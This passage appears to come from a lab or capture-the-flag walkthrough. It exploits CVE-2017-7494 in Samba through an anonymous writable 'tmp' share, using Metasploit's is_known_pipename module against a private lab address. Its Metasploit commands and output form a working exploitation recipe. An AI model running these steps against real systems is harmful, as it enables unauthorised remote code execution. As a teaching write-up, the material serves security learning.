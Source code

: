 OK, so we have a few shares available, one of which is one called *tmp*.  Nmap is able to determine the remote path as C:\var\tmp, which in the Linux world translates to /var/tmp. And as if by magic, anonymous access to our share allows us READ/WRITE access.  So that should be everything we need to exploit CVE-2017-7494.  Next stop, Metasploit.

## Shell Access

So once we have fired up Metasploit, lets find our exploit.

`msf > search known_pipe`

```
Matching Modules
================

   Name                                   Disclosure Date  Rank       Check  Description
   ----                                   ---------------  ----       -----  -----------
   exploit/linux/samba/is_known_pipename  2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
```

Here she is, now lets load the module

`msf > use exploit/linux/samba/is_known_pipename`

What options do we need to set.

```
msf exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOST                            yes       The target address
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)
```

So we have already determined our local folder (SMB_FOLDER) and the share name (SMB_SHARE_NAME) along with our remote host IP (RHOST), but the RPORT is set to 445 by default, but our Samba is running on 139, so lets set our options to reflect this

```
msf exploit(linux/samba/is_known_pipename) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(linux/samba/is_known_pipename) > set RPORT 139
RPORT => 139
msf exploit(linux/samba/is_known_pipename) > set SMB_FOLDER /var/tmp
SMB_FOLDER => /var/tmp
msf exploit(linux/samba/is_known_pipename) > set SMB_SHARE_NAME tmp
SMB_SHARE_NAME => tmp
```
